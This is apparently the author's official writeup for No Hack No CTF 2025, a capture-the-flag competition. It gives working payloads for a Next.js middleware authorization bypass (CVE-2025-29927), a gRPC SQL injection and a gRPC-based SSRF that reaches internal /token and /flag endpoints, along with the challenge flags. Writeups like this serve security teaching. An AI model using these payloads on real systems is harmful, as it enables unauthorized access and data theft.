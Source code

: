 ```yaml
---
title: "NHNC 2025 Writeup"
description: "No Hack No CTF 2025 Official Writeup"
published: 2025-07-08
draft: false
tags: ['CTF', 'NHNC', 'Cyber-Sec']
---
```

Hi I am Frank and this's my Official Writeup </br>

The source code for all challenges of me</br>
[https://github.com/Frank-Kam/NHNC-2025_Chal](https://github.com/Frank-Kam/NHNC-2025_Chal)

## Welcome (Welcome)
### Description
```html
##### Welcome to No Hack No CTF 2025. Good luck and have fun !
![](/posts/images/NHNC_2025-1.webp "NHNC{Welcome_Flag_lol}")
</br>

`Hover your mouse over the image !`
```
<img src="/posts/NHNC_2025-1.webp" alt="NHNC Welcome Flag" width="50" height="50" title="NHNC{Welcome_Flag_lol}">
Just move the mouse and place it on the image to get the flag. </br>

`NHNC{Welcome_Flag_lol}`

## Next Song is 春日影 (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Next_Song_is_%E6%98%A5%E6%97%A5%E5%BD%B1)
### Description
```html
![春日影](https://drive.miyago9267.com/d/file/img/mygo/%E7%82%BA%E4%BB%80%E9%BA%BC%E8%A6%81%E6%BC%94%E5%A5%8F%E6%98%A5%E6%97%A5%E5%BD%B1.jpg)
</br>

NextJS Vulnerability at /admin

`Author: Frank`
```
Visiting `/admin` will reveal a redirect, then go to Google and search for `NextJS Vulnerability payload`; you should see many payloads for `CVE-2025-29927`. </br>
[Understanding CVE-2025-29927: The Next.js Middleware Authorization Bypass Vulnerability](https://securitylabs.datadoghq.com/articles/nextjs-middleware-auth-bypass/) </br>
So, just add the following to the HTTP HEADER:
```bash
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```
Then use the payload:
```bash
curl -X GET -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://???.com/admin
```
Then get the flag </br>

`NHNC{ANon_iS_cUtE_RIGhT?}`

## Catch The Goose (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Catch_The_Goose)
### Description
```html
![Goose](https://www.americanoceans.org/wp-content/uploads/2023/12/goose-vs-duck-1024x768.jpeg)
</br>

👀 secret_flag or user:admin

`Author: Frank`
```
### Public File
```bash
server.py
```
From the third line of the public file, it can be seen that there is `gRPC`, and on the line 12 , there is an `SQL query string without filtering` before or after, suggesting that gRPC is used for `SQL injection`. </br>
If you directly test with grpcurl now, it will definitely report an error (because there is `no .proto file to define the gRPC connection method`) , so we read the [gRPC official manual](https://grpc.io/docs/what-is-grpc/introduction/) to find the syntax for the .proto file. </br>
Then, by examining lines 11 to 21 of the source code, we saw that `GetUser returns a UserReply`, and the surrounding lines show how `username` is handled, so we created `user.proto` accordingly.
```bash
syntax = "proto3";

service UserService {
  rpc GetUser (UserRequest) returns (UserReply);
}

message UserRequest {
  string username = 1;
}

message UserReply {
  string data = 1;
}
```
Finally, based on the challenge description and the `SQL query string` on line 12, we discovered that in addition to `user:admin`, there is also a key called `secret_flag`. </br>
Therefore, we constructed the payload accordingly.
```bash
grpcurl -plaintext -proto user.proto -d '{"username": "'\'' OR key = '\''secret_flag"}' ???.com:14514 UserService/GetUser
```
Then get the flag </br>

```json
{
  "data": "NHNC{lETs_cOoK_THe_GoOSE_:speaking_head::speaking_head::speaking_head:}"
}
```

## Let's Cook Some Delicious Goose! (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Lets_Cook_Some_Delicious_Goose!)
### Description
```html
#### The Goose Is Run Awayyyyy!!!
![](https://static.styletc.com/images/cover/25/401925/md-a1e281da945043f7eab9b6dcc1b1ace6.jpg)
</br>
Analyze the packets
</br>

`Author:Frank` </br>
*Ps : The File < 150 MB*
`[https://drive.google.com/file/d/1Vc3IEderqWIBcbDiHzLgx0vP9K15OxUS/view?usp=sharing](https://drive.google.com/file/d/1Vc3IEderqWIBcbDiHzLgx0vP9K15OxUS/view?usp=sharing)`
```
### Public File
```bash
Happy_Log.pcapng
fetch.proto
flag_server.py
```
We noticed that the public files include a `.pcapng` packet capture file and a `.proto file used for gRPC` communication. </br>
We started by analyzing the packet capture file using Wireshark. </br>
Use the filter at the top of Wireshark to filter for gRPC traffic. </br>
```bash
grpc
```
Then, we can see packets like the following:
```bash
:method: POST
:scheme: http
:path: /fetch.FetchService/FetchURL
:authority: ???.com:6666
content-type: application/grpc
user-agent: grpcurl/v1.9.3 grpc-go/1.61.0
te: trailers
grpc-accept-encoding: gzip


:status: 200
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

grpc-status: 0
grpc-message: 
```
We can clearly see a gRPC packet sent from the user to the target machine at `???.com:6666`. </br>
Based on fetch.proto and flag_server.py, we can tell this is an `SSRF test`. In flag_server.py, it looks like you first need to `GET /token` and then use the retrieved token to `POST to /POST`. </br>
Finallyyyyy, let's construct the payload. </br>
Get token
```bash
grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/token\",\"method\":\"GET\",\"headers\":{}}" ???.com:6666 fetch.FetchService/FetchURL
```
Post to /flag
```bash
grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/flag\",\"method\":\"POST\",\"headers\":{\"Content-Type\":\"application/x-www-form-urlencoded\"},\"body\":\"token=66663333777nejwncc\"}" ???.com:6666 fetch.FetchService/FetchURL
```
Then get the flag </br>

`NHNC{YuMMyeeeE_GOOOd_ChAL_rIGHT}`